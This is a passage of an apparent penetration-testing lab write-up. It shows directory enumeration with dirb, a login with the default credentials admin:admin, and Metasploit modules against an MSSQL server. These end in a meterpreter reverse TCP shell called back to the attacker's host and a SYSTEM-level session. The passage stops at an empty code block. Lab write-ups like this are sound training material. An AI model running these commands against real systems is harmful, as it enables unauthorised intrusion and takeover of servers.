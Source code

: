 
### Victim 2 
Webserver: 
```bash
port 80/tcp open, Apache httpd 2.4.18 (Ubuntu) 
```
So let's enumerate directories with **dirb** and see what we find.  
```bash
root@0xBlackhat:~ # dirb http://172.16.64.140
```
using worlist /usr/share/dirb/wordlists/common.txt

After a while http://172.16.64.140/project/ shows up, let's try **admin:admin**. Default credentials again and we're in.
Now, let's dirb with credentials this time to get a scan with access rights.
```bash
root@0xBlackhat:~ # dirb http://172.16.64.140/project -u admin:admin 
```
This will eventually give us a couple more directories to browse and inspect.  
One of those contains the credentials to access the SQL Server in the network.  
It's also the flag we needed to find. 

### Victim 3 
The SQL Server. Since we already have the credentials it's not too much of a drama.  
We can use Metasploit for this, loading mssql_login module
```bash
use auxiliary/scanner/mssql/mssql_login
set rhosts 172.16.64.199  
set rport 1433  
set username fooadmin  
set password fooadmin  
set verbose true  
run
```
Metaploit's **mssql_enum** module helps us automate reconnaissance 
```bash
use auxiliary/admin/mssql/mssql_enum  
set password fooadmin  
set username fooadmin  
set rport 1433  
set rhosts 172.16.64.199  
run  
```
This is the part that takes some time going through the displayed results. We get a lot of information about the database.  
We see e.g. that the account is indeed an system account so we can use this to compromise the server with the mssql_payload module:
```bash
use exploit/windows/mssql/mssql_payload  
set password fooadmin  
set user fooadmin  
set srvport 53  
set rhosts 172.16.64.199  
set payload windows/x64/meterpreter_reverse_tcp  
set lhost 172.16.64.13  
set lport 443  
run
```
This will upload the payload and a meterpreter session will open in terminal. 
```bash
meterpreter > getuid  
Server username: NT AUTHORITY\SYSTEM  
meterpreter >
```
Let's spawn a shell and look for the flag
```bash
```